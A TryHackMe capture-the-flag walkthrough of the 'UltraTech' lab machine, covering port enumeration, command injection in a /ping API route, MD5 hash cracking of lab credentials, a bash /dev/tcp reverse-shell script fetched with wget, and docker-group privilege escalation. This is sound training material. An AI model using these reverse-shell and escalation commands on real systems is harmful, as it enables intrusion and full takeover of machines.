








# UltraTech Writeup (Tryhackme) by [yag1n3](https://github.com/yaguine)

### tags
* security
* pentest
* enumeration
* web

### set of questions 1
* which software is using the port 8081 ?
* which other non-standard port is used ?
* which software using this port ?
* which GNU/Linux distribution seems to be used ?
* the software using the port 8080 is a REST api, how many of its routes are used by the web application ?

### set of questions 2
* There is a database lying around, what is its filename? 
* What is the first user's password hash?
* What is the password associated with this hash?

### set of questions 3
* What are the first 9 characters of the root user's private SSH key? 

---

## set of questions 1

we ping the target and the ICMP TTL indicates us that it's a Linux Machine  
  

with nmap we discover 4 open ports  
  

this is enough to answer the first 4 questions :  
* *which software is using the port 8081 ?* 		**Node.js**
* *which other non-standard port is used ?* 		**31331**
* *which software using this port ?* 			**Apache**
* *which GNU/Linux distribution seems to be used ?*	**Ubuntu**

the last question is *the software using the port 8080 is a REST api, how many of its routes are used by the web application ?*  
i suppose they are talking about the 8081 port, not 8080  
now we use gobuster on the port 8081 to find the routes and we find 2, */auth* and */ping*

---

## set of questions 2

now we use gobuster on port 31331 and we discover the login page */partners.html*  
looking the code, we can see that it's using the API on port 8081  
every 10 seconds, it uses */ping?ip=<***IP***>* to confirm that the host is up  
when we try to log in, it uses */auth?login=<***username***>&password=<***password***>*  

i confirm that */ping* is using the command **ping**, so it might vulnerable to **command injection**  
after some tries, this is the injection that works for me  
  

since i'm not able to make it display the output, i send the output of "ls -lha" to a file, and send it to my machine with curl  
  
  
  

we see that the answer to the question *There is a database lying around, what is its filename?* is **utech.db.sqlite**  

we use the same technique to transfer de ddbb to our machine  
we see the user **r00t** with the hash **f357a0c52799563c7c7b76c1e7543a32**  
we search the hash on google, and we find [this page](https://md5.j4ck.com/14777) that includes that hash  
the unhashed password is **n100906**  

so we have answered the remaining questions, and we have the credentials **r00t:n100906** that work on */partners.html*  
Great !!!

NOTE : We also get another credentials **admin:mrsheafy**

---

## command injection script

im gonna be a little fancy here before continuing  
this is just for the sake of it, but i'm practicing bash scripting and i just learned how to color output  
lets make an script that applies the technique used on */ping* to achieve easy RCE and a reverse shell  

so this is the way it works : we start the script with params **remote ip** and **local ip**  
also, we need to start a listener on port 80 of our machine  
  

now we enter a command and the output will be displayed on the listener  
  

the script will end, and if we need to enter another command we have to execute the script and start the listener again  

### reverse shell

after trying different techniques, the one that worked for me was :  

create the following script **shell.sh** on my machine
```bash
#!/bin/bash

bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1
```

start an http server  

download it on the remote machine with **wget** 

give permissions to it with ```chmod +x shell.sh```

start a listener on the local port specified

execute it with ```./shell.sh```

we have a reverse shell on the remote machine !!!

---

## root flag

the last question is What are the first 9 characters of the root user's private SSH key?  
this is kind of asking for root.txt  
the last step was completely unnecesary since the credentials for "r00t" work on ssh  

being logged as "r00t" on the machine, we discover he is a member of the group "docker"  
we can create a docker container that includes the whole filesystem  
we will be root inside the docker, therefore we are root on the whole filesystem  

the command to achieve this is ```docker run -v /:/mnt -it <image>```, but we need an image  
we find the images on the system with ```docker images``` and we find one called "bash"  
we use the above command and now we have a shell in a docker with a folder called */mnt* that includes the whole filesystem  
and that ends the CTF !!!

aditionally, we could modify the passwd and shadow files to create a new super user  


